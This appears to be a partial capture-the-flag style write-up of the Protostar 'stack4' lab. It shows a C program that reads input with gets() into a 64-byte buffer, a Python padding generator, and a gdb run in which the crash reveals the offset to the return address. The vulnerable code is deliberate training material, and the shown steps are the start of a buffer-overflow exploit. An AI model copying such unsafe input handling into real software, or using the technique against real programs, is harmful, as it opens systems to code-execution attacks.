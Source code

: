 ----
stack4

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

```css
user@protostar:/tmp$ vi stack.py 
user@protostar:/tmp$ cat stack.py 
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(padding)
user@protostar:/tmp$ 
user@protostar:/tmp$ python stack.py > exp
user@protostar:/tmp$ 

```

```css
user@protostar:/opt/protostar/bin$ gdb st
stack0   stack2   stack4   stack6   stat     strace   strip    
stack1   stack3   stack5   stack7   stdbuf   strings  stty     
user@protostar:/opt/protostar/bin$ gdb stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r < /tmp/exp 
Starting program: /opt/protostar/bin/stack4 < /tmp/exp

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) 
```
